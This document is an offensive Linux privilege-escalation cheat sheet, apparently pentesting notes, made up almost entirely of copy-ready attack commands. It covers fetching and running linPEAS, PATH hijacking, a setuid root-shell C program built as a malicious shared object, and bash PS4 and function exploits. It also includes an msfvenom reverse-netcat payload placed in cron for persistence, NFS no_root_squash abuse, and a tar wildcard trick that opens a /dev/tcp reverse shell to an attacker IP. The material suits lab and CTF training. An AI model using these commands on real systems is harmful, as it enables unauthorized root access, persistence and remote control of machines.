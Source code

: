 # Linux Privilege Escalation
Easy and fast priv escalation

## Python Server

```bash copy
cd /home/kali/scripts && sudo python3 -m http.server 80
```
- Starts an HTTP server on port 80 for file sharing.
- `-m http.server 80`: Runs Python HTTP server on port 80

## Privilege Escalation aio script

```bash copy
cd /tmp; wget http://10.10.10.10:1234/linPEAS.sh
chmod +x linPEAS.sh
./linPEAS.sh
```
- Downloads and runs linPEAS script for privilege escalation.

## Privilege Escalation

- **Checklist**: [PayloadsAllTheThings - Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- **Checklist**: [HackTricks - Linux Privilege Escalation Checklist](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- **SUID files list**: [GTFOBins](https://gtfobins.github.io/)
- **Kernel Exploit**: [Linux Exploit Suggester](https://github.com/jondonas/linux-exploit-suggester-2)

### List sudo permissions
```bash copy
sudo -l
```
- Lists commands user can run with sudo.
- `-l`: List allowed commands.

### SUID
```bash copy
find / -perm -u=s -type f 2>/dev/null
```
- Finds SUID files owned by root.
- `-perm -u=s`: SUID bit set
- `-type f`: Files only
- `2>/dev/null`: Suppresses permission errors.

```bash copy
find / -user root -perm -4000 -exec ls -ldb {} \;
```
- Lists root-owned SUID files with details.
- `-user root`: Root-owned
- `-perm -4000`: SUID bit
- `-exec ls -ldb`: Detailed listing.

```bash copy
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
- Finds SUID or SGID files with detailed listing.
- `-type f`: Files
- `-perm -u+s -o -perm -g+s`: SUID or SGID
- `-exec ls -l`: Detailed output.

### Capabilities
```bash copy
getcap -r / 2>/dev/null
```
- Lists files with Linux capabilities across the filesystem.
- `-r`: Recursive scan of directories.
- `2>/dev/null`: Suppresses permission-denied error messages.

### PATH Manipulation
```bash copy
cd /tmp
echo /bin/sh > ps
chmod +x ps
export PATH=/tmp:$PATH
```
- Creates fake `ps` to run shell via PATH hijacking.
- `chmod +x`: Makes executable
- `export PATH=/tmp:$PATH`: Prepends /tmp to PATH.

```bash copy
cd /tmp
echo echo "/bin/bash" > ls
chmod +x ls
export PATH=/tmp:$PATH
```
- Creates fake `ls` to run bash via PATH hijacking.
- `chmod +x`: Makes executable
- `export PATH=/tmp:$PATH`: Prepends /tmp to PATH.

### Vim Editor escalation
```bash copy
sudo -l
/usr/bin/vi
:!sh
:quit
```
- Escalates to shell from vim if run with sudo.
- `:!sh`: Runs shell
- `:quit`: Exits vim.

### Shared Object
```bash copy
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```
- Traces file access errors for suid-so binary.
- `2>&1`: Redirects stderr to stdout
- `grep -iE "open|access|no such file"`: Filters for file errors.


```C copy
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```
- `service.c` Program code.

```bash copy
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/service.c
/usr/local/bin/suid-so
```
- Compiles and runs malicious shared object for escalation.
- `-shared -fPIC`: Creates position-independent shared object.

### Environment Variables
```bash copy
strings /usr/local/bin/suid-env
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env
```
- Hijacks environment variables to run malicious service binary.
- `PATH=.:$PATH`: Prepends current directory to PATH.

### Abuse shell features (bash <4.2-048)
```bash copy
strings /usr/local/bin/suid-env2
/bin/bash --version
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```
- Creates bash function to escalate via service command (bash <4.2-048).
- `-p`: Preserves privileges
- `export -f`: Exports function.
### Bash debugging escalation (bash <4.4)

```bash copy
/bin/bash --version
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'
/usr/local/bin/suid-env2
/tmp/rootbash -p
```
- Uses bash debugging to create SUID bash (bash <4.4).
- `SHELLOPTS=xtrace`: Enables debug
- `PS4='...'`: Executes command during debug
- `-p`: Privileged mode.

### Reverse Shell (msfvenom & crontab)
```bash copy
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.10.10 lport=1234 R
```
- Generates reverse shell payload connecting to attacker.
- `-p cmd/unix/reverse_netcat`: Payload type
- `lhost=10.10.10.10`: Attacker IP
- `lport=1234`: Attacker port
- `R`: Raw output.

```bash copy
cat /etc/crontab
echo [MSFVENOM OUTPUT] > autoscript.sh
```
- Adds msfvenom payload to cron for persistence.

### NFS Misconfiguration
```bash copy
cat /etc/exports
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
- Mounts NFS share with no_root_squash for escalation.
- `-o rw,vers=3`: Read/write
- NFS version 3.

```bash copy
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
/tmp/shell.elf
```
- Creates and runs SUID shell via NFS.
- `-p linux/x86/exec`: Payload
- `CMD="/bin/bash -p"`: Privileged bash
- `-f elf`: ELF format
- `chmod +xs`: Sets SUID.

### Tar Wildcard
```bash copy
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'" > shell.sh
chmod +x shell.sh
chmod 777 shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```
- Exploits tar wildcard to run reverse shell.
- `chmod +x`: Makes executable
- `chmod 777`: Full permissions
- `--checkpoint-action=exec=sh shell.sh`: Executes shell.sh.

### Backup Script
```bash copy
chmod o+wx backup.sh
sudo -u michael /opt/backups/backup.sh
```
- Exploits writable backup script for escalation.
- `o+wx`: Adds write/execute for others.

### SUID Bash
```bash copy
./.suid_bash -p
```
- Runs SUID bash for privilege escalation.
- `-p`: Preserves privileges.

